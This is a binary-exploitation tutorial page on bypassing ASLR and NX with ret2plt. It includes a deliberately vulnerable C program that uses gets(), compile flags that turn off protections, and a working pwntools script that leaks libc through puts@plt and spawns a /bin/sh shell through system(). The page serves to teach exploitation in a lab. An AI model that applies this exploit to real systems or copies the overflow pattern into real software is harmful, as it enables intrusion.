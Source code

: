 ```yaml
---
description: 09/20/2023
---
```


# ☠ Bypassing Address Space Layout Randomization & NX (ret2plt)

This will feature x86 and x64-based exploitation.

## Introduction

**Need a refresher on ASLR?**

{% content-ref url="memory-protections/address-space-layout-randomization-aslr.md" %}
[address-space-layout-randomization-aslr.md](memory-protections/address-space-layout-randomization-aslr.md)
{% endcontent-ref %}

<mark style="color:yellow;">Address Space Layout Randomization</mark>, or <mark style="color:yellow;">ASLR</mark> is very similar to PIE.&#x20;

However, it is <mark style="color:yellow;">implemented at the kernel level of the underlying operating system</mark>.

<mark style="color:yellow;">The base address of the string and the functions are going to be randomized with each execution of the binary</mark>.

With <mark style="color:green;">ASLR enabled</mark>, you can visualize this by running `ldd` against your target binary a few times:

<figure><img src="../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### How Does ret2plt Work?

Here, we will be taking advantage of the <mark style="color:yellow;">**ret2plt**</mark> technique that <mark style="color:yellow;">involves calling</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts@plt`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">and passing the GOT entry of</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">as a parameter</mark>.

This will cause <mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">to print out its own address in</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`libc`</mark>.

* How cool is that?!

This will allow us to leak the ASLR base. Essentially, we need to craft a payload that leaks the real address of `puts()`.&#x20;

As we learned in [overwriting-global-offset-table-got.md](overwriting-global-offset-table-got.md "mention"), <mark style="color:yellow;">we know that calling the PLT entry of the function is the same as calling the function itself</mark>. If we point the parameter to the GOT entry, it will print out it's location/address.

This is because C string arguments for functions take pointers of where the string can be found.

Ultimately, pointing it to the GOT entry will print it out.

**NOTE:** <mark style="color:yellow;">It is important to note that ASLR must be</mark> <mark style="color:green;">enabled</mark> <mark style="color:yellow;">and PIE MUST be</mark> <mark style="color:red;">disabled</mark> <mark style="color:yellow;">in order to ensure that ret2plt works correctly</mark>. Also, this will allow you to bypass NX as well.&#x20;

<mark style="color:green;">**Enable**</mark>** ASLR if you have it disabled from previous challenges:**

```
sudo echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

### References

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass" %}

{% embed url="https://sharkmoos.medium.com/binary-exploitation-exploiting-ret2libc-328eefb0421b" %}

## Exploitation (x86)

### Source Code

`vuln-32.c`:

```c
#include <stdio.h>

void vuln() 
{
    puts("Can you reach me?!");

    char buffer[20];
    gets(buffer);
}

int main() 
{
    vuln();

    return 0;
}
```

### Compilation

```
gcc vuln.c -o vuln -no-pie -fno-stack-protector -m32
```

### Enumeration

`checksec`:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

* 32-bit executable
* NX Enabled
* No PIE (<mark style="color:yellow;">important</mark>)
* Remember, ASLR should be enabled

`file`:

{% code overflow="wrap" %}
```
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a0f25810be2712c4f32922a70c705efd5d984665, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

### Exploit Code

Note: <mark style="color:yellow;">be sure to read the comments embedded in the exploit code to further understand how the exploit is behaving</mark>.

`exploit.py`:

```python
from pwn import *

# Basic pwn template setup
elf = context.binary = ELF('./vuln')
libc = elf.libc
p = process()

# We need a payload that will leak the actual address of puts()
# Remember, calling the PLT entry of the function is the same as calling the function itself
p.recvline()    # Receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],    # Main??? This is acting as the return address. However, if we set it to something random, it will leak the libc base and crash but if we were to call main() again, we would simply restart the binary.
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))  # The GOT entry will not be the only thing printed. puts() will be. It will be printed as a null-byte. This means it will keep on printing GOT addresses, but we only care about the first one. So, we will grab the first 4 bytes and utilize u32() to interpret them as a little-endian number.
p.recvlines(2) # This means we will ignore the rest of the values as well as the puts() output from calling main() again.

# Next, we will calculate the libc base and perform a ret2libc attack
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC Base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'], # Call system() from libc
    libc.sym['exit'], # Call exit() from libc to exit gracefully. exit() is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00')) # Search for the string "/bin/sh" in libc and append it as an argument to system() found in libc.
)

p.sendline(payload) # Send payload
p.interactive() # Obtain interactive shell
```

## Exploitation (x64)

Here, we can utilize a similar methodology, however since we are working with x64, we will need to utilize ROP gadgets to inject our data into the registers.

So, I ran into a bit of an issue here. I need to do a bit more research.&#x20;

I'm not really sure how to ROP when specific gadgets are lacking. The ret2csu technique sounds like it could potentially help us here, but I'm still not sure since most new gcc versions have "killed" this technique as well.

